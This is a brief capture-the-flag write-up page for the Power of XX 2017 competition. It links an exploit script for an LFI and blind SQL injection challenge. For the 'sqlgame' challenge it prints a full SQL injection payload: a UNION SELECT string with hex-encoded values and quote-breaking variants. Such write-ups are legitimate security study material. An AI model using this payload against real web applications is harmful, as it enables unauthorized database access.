 # Power-of-XX-2017_CTF-Write-ups

> Basic Web ( LFI + BSQLi )

https://github.com/munsiwoo/problems/blob/master/power_of_xx_2017/basic_web/exploit.py

> sqlgame (SQLi)

1+union+select+0x303037,1,1%23'+union+select+1,0x62616e67,schema()%23"+union+select+1,2,'007'%23

------------------------------------
http://siwoomun.blogspot.kr/2017/10/power-of-xx-2017-write-ups.html
